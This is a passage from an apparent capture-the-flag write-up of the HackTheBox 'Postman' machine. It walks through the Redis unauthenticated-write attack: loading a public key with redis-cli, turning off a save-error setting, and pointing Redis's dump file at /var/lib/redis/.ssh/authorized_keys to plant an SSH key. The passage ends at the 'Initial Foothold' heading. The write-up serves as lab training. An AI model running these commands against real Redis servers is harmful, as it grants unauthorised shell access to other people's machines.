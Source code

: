 Next we import the file with contents of public key into redis.

```bash
cat key.txt | redis-cli -h postman.htb -x set ssh_key
```

https://stackoverflow.com/questions/19581059/misconf-redis-is-configured-to-save-rdb-snapshots

Running this command caused an error. I quickly resolved it after finding the answer on [stackoverflow](https://stackoverflow.com/questions/19581059/misconf-redis-is-configured-to-save-rdb-snapshots).

![error2.png](/assets/img/Postman/error2.png)

Using `redis-cli`, it is possible to edit the configuration to get rid off this error. 

```bash
config set stop-writes-on-bgsave-error no
```

![errorSolve.png](/assets/img/Postman/errorSolve.png)

Now we can continue to save the public key to the `authorized_keys` file on redis server.

```bash
config set dir /var/lib/redis/.ssh
```

```bash
config set dbfilename "authorized_keys"
```

![exploit.png](/assets/img/Postman/exploit.png)

### Initial Foothold

